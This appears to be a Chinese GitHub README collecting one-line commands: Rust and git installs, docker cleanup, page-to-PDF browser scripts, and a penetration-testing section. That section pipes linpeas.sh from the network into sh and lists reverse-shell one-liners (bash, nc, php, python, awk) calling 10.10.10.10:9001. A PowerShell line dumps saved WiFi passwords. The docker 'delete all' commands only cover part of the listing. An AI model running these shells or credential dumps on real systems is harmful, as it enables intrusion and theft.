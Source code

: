 # Oneliner
---
这是一个 包含了 只需要一行 instruction sequence 即可完成目标的 仓库.

将每一条记录称为 liner

这个仓库 涵盖了很多方面 如下载 安装 POC验证 EXP利用 等.

仓库遵循 content first 原则.

由于项目的特殊性, 参加项目请使用issue 来提供您的 liner

格式要求
````
## category <!-- 分类, 也是liner的 头部 --> <!-- 由管理员 识别并合并 -->
### title
> ***<date YY-mm-dd>: <author|mail>***
[> **<description>**] <!-- 描述信息 -->
```lang <!-- 该部分可有多个 -->
instruction
```
--- <!-- 当前liner的 分割线 也是尾部 -->
````
## 目录
* [Rust](#rust)
  * [Linux安装Rust环境](#linux安装rust环境)
* [渗透测试](#渗透测试)
  * [Linpeas.sh枚举提权信息](#linpeassh枚举提权信息)
  * [反弹shell合集](#反弹shell合集)
* [xxx2pdf](#xxx2pdf)
  * [freebuf2pdf](#freebuf2pdf)
  * [csdn2pdf](#csdn2pdf)
  * [wechat2pdf](#wechat2pdf)
* [WIFI](#wifi)
  * [powershell获取密码](#powershell获取密码)

<!-- 列表头 -->
## Rust
### Linux安装Rust环境
> ***2024-6-25: fb0sh***
```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
> **(中国区环境)**
```bash
export RUSTUP_DIST_SERVER="https://rsproxy.cn";export RUSTUP_UPDATE_ROOT="https://rsproxy.cn/rustup";curl --proto '=https' --tlsv1.2 -sSf https://rsproxy.cn/rustup-init.sh | sh
```
---


## 渗透测试
### Linpeas.sh枚举提权信息
> ***2024-6-25: fb0sh***
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
> **python2**
```bash
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
> **python3**
```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
--- 

### 反弹shell合集
> ***2024-6-25: fb0sh***

> **bash**
```bash
/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```
> **nc**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```
```bash
nc 10.10.10.10 9001 -e /bin/bash
```
> **php**
```php
php -r '$sock=fsockopen("10.10.10.10",9001);popen("/bin/bash <&3 >&3 2>&3", "r");'
```
> **python**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
```python3
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.10",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
> **awk**
```bash
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.10/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
--- 

### xxx2pdf
> 打开浏览器控制台后粘贴js代码
### freebuf2pdf
> ***2024-6-28: fb0sh***
```js
["articles-layout-header ant-layout-header", "page-header", "ant-layout-footer","floating-view", "aside-left", "aside-right", "remix-module","introduce"].forEach(c => document.getElementsByClassName(c)[0].remove());document.getElementsByClassName("main")[0].setAttribute("style","width:100%");window.print();
```
---
### csdn2pdf
> ***2024-6-28: fb0sh***
```js
["toolbarBox", "rightAside", "pcCommentBox", "recommendNps", "toolBarBox"].forEach(i => document.getElementById(i).remove());["blog_container_aside", "recommend-box", "blog-footer-bottom", "csdn-side-toolbar"].forEach(c => document.getElementsByClassName(c)[0].remove());document.querySelectorAll("main")[0].setAttribute("style","width:95");window.print();
```
---
### wechat2pdf
> ***2024-6-28: fb0sh***

> **也可直接使用edge快捷键Ctrl+P**
```js
window.print();
```
---
## WIFI
### powershell获取密码
> ***2024-7-1: fb0sh***

> 请放入powershell里
```powershell
$language=(Get-Culture).Name;if($language -eq "zh-CN"){$profileRegex="\s所有用户配置文件\s*:\s*(.*)$";$keyContentRegex="关键内容\s*:\s*(.*)$"}else{$profileRegex="\sAll User Profile\s*:\s*(.*)$";$keyContentRegex="Key Content\s*:\s*(.*)$"};$results=@();$profiles=netsh wlan show profiles|Select-String $profileRegex|ForEach-Object {$_.Matches[0].Groups[1].Value.Trim()};foreach($profile in $profiles){$profileInfo=netsh wlan show profile name="$profile" key=clear;$passwordMatch=$profileInfo|Select-String $keyContentRegex;$password=if($passwordMatch){$passwordMatch.Matches[0].Groups[1].Value.Trim()}else{"No Password Found"};$results+=[PSCustomObject]@{SSID=$profile;Password=$password}};$results|Format-Table -AutoSize
```
## GIT
### winget安装git
> ***2024-7-4: fb0sh***
```powershell
winget install --id Git.Git -e --source winget
```
---

## Python 小段代码
### python 0 填充
> ***2024-7-17: fb0sh***
```python
res=[f"{i:03}" for i in range(100)]
```
---
### windows重启进入BIOS(仅适用UEFI启动)
> ***2024-7-17: fb0sh***
```cmd
shutdown.exe /r /fw /t 1
```
---
## Docker
### Docker 删除所有镜像
> ***2024-7-20: fb0sh***
```bash
docker rmi $(docker images | sed -n '2,14p' | awk '{print $3}' | tr -s "\n" " ")
```
---
### Docker 删除所有容器
> ***2024-7-20: fb0sh***
```bash
docker rm $(docker ps -a | sed -n '2,14p' | awk '{print $1}' | tr -s "\n" " ")
```
---
<!-- 列表尾 -->
